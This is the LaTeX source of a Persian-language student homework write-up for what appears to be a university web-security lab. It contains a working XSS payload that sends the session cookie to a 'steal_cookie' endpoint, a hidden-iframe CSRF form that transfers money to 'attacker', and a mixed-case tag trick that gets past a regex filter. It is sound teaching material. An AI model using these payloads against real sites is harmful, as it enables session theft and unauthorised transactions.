% !TEX program = xelatex
\documentclass[]{article}
\usepackage{commons/course}

\begin{document}
\printheader

\section*{قسمت اول}
در این قسمت با نگاه کردن به کد سایت متوجه می‌شویم که در صورت وجود نداشتن کاربر دقیقا نام کاربر
در صفحه‌ی نشان داده شده به کاربر درخواست کننده نمایش داده می‌شود. این موضوع باعث می‌شود که بتوان یک
\lr{script}
به عنوان ورودی کاربر داد. به عنوان مثال این ورودی من بود:
\begin{latin}
\begin{lstlisting}
<script>
document.getElementsByClassName('error')[0].style.visibility = 'hidden';
const xhttp = new XMLHttpRequest();
xhttp.open('GET', 'http://localhost:3000/steal_cookie?cookie=' + document.cookie.split('=')[1], true);
xhttp.send();
</script>
\end{lstlisting}
\end{latin}
در این کد در ابتدا به مرورگر می‌گوییم که تگ‌هایی که کلاس
\verb|error|
دارند را نشان نده همان طور که سوال خواسته بود. در ادامه یک
\lr{object}
از جنس
\verb|XMLHttpRequest|
تعریف می‌کنیم که بتوان به کمک آن یک درخواست
\lr{ajax}
به یک آدرس زد. همان طور که از کد مشخص است یک درخواست
\verb|GET|
به آدرس
\LRE{\verb|http://localhost:3000/steal_cookie|}
می‌فرستیم. همچنین برای پارامتر کوکی آبجکت
\verb|document.cookie|
استفاده می‌کنیم و سپس خروجی آن که
\lr{string}
است را با
\verb|=|
تکه تکه می‌کنیم و قسمت دوم آن که عملا مقدار کوکی
\lr{session}
است را به عنوان پارامتر ارسال می‌کنیم.

در نهایت برای حمله این اسکریپت را باید به فرم
\lr{URL encoded}
در آورد. این کار را به کمک
\link{https://www.urlencoder.org/}{این سایت}
انجام دادم و نتیجه به صورت زیر در آمد:
\begin{latin}
\begin{lstlisting}
%3Cscript%3E%0Adocument.getElementsByClassName%28%27error%27%29%5B0%5D.style.visibility%20%3D%20%27hidden%27%3B%0Aconst%20xhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%0Axhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%27%20%2B%20document.cookie.split%28%27%3D%27%29%5B1%5D%2C%20true%29%3B%0Axhttp.send%28%29%3B%0A%3C%2Fscript%3E
\end{lstlisting}
\end{latin}
\section*{قسمت دوم}
در ابتدا یک
\lr{form}
در صفحه‌ی
\lr{HTML}
تعریف می‌کنیم به طوری که دقیقا پارامتر‌های فرم انتقال پول در سایت اصلی را داشته باشد و
\lr{action}
آن دقیقا آدرس خود وبسایت باشد. همچنین تمامی فیلد‌ها را پنهان می‌کنیم. فعلا فرم به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
\end{lstlisting}
\end{latin}
اما مشکلی که در حال حاضر وجود دارد این است که در صورتی که فرم را سابمیت بکنیم خود صفحه‌ی
مرورگر به همان سایت
\lr{Bitbar}
می‌رود. برای حل کردن این مشکل با توجه به
\link{https://stackoverflow.com/a/6877790/4213397}{این لینک}
یک
\lr{iframe}
تعریف می‌کنیم و
\lr{target}
فرم را همان
\lr{iframe}
قرار می‌دهیم به صورتی که انگار در همان
\lr{iframe}
درخواست فرستاده می‌شود. همچنین
\lr{iframe}
را نیز پنهان می‌کنیم طوری که کاربر آن‌را نبیند. کد در حال حاضر به صورت زیر است:
\begin{latin}
\begin{lstlisting}[language=html]
<form target="transfer_frame" name="transfer_form" action="http://localhost:3000/post_transfer" method="post">
    <input hidden="true" type="text" name="destination_username" value="attacker">
    <input hidden="true" type="text" name="quantity" value="10">
</form>
<iframe hidden="true" name="transfer_frame"></iframe>
\end{lstlisting}
\end{latin}
در نهایت نیز باید به صورتی تشخیص دهیم که کی فرم سابمیت می‌شود. برای این کار من راه خوبی پیدا نکردم.
یکی از کار‌هایی که به ذهنم رسید این بود که چک کنم چند بار
\lr{iframe}
لود شده است. بار اولی که صفحه باز می‌شود قبل از فرستادن فرم یک بار لود می‌شود و بار دیگر بعد از ارسال فرم.
پس به کمک کد
\lr{JavaScript}
زیر می‌توان این کار را چک کرد:
\begin{latin}
\begin{lstlisting}[language=html]
<script>
    var times_loaded = 0;
    function iframe_loaded() {
        times_loaded++;
        if (times_loaded == 2)
            window.location.replace("https://sharif.edu/~kharrazi/courses/40441-011/");
    }
</script>
<iframe hidden="true" name="transfer_frame" onload="iframe_loaded()"></iframe>
\end{lstlisting}
\end{latin}
همچنین همان طور که در تمرین اسنتفورد گفته شده بود باید برخی از تنظیمات
\lr{CORS}
را عوض می‌کردیم که در عکس زیر آمده است:
\begin{figure}[ht]
    \centering
    
\includegraphics[scale=0.35]{firefox.png}
\end{figure}
\section*{قسمت سوم}
در این قسمت در ابتدا با نگاه کردن به سورس کد بک متوجه می‌شویم که با یک رجکس سرور جلوی عبارات
\LRE{\verb|<img>| \verb|<script>| \verb|<IMG>| \verb|<SCRIPT>|}
را می‌گیرد. اما کافی است که با مثلا تعریف کردن این تگ‌ها به صورت
\LRE{\verb|<iMg>|}
آن را دور بزنیم! در ادامه باید کد داده شده را کامل کنیم. کاری که من کردم این بود که صرفا
هر بار بین این زمان لود شدن عکس و بیشترین زمان لود شدن عکس قبلی ماکسیموم بگیریم. با این کار عکسی که
بیشترین زمان لود شدن داشته را پیدا می‌کنیم. اما دقت کنید که ما عملا عکسی نشان نمی‌دهیم و زمان لود شدن
\LRE{\verb|<img>|}
نشان دهنده‌ی زمان لاگ این شدن است!

در کل این سوال برخلاف سوالات قبل خیلی نکته‌ای نداشت غیر از مجبور بودن به بزرگ و کوچک کردن تگ‌ها و سورس صفحه و چیزی که باید در فیلد وارد شود در فایل
\lr{g.txt}
وجود دارد.
\end{document}
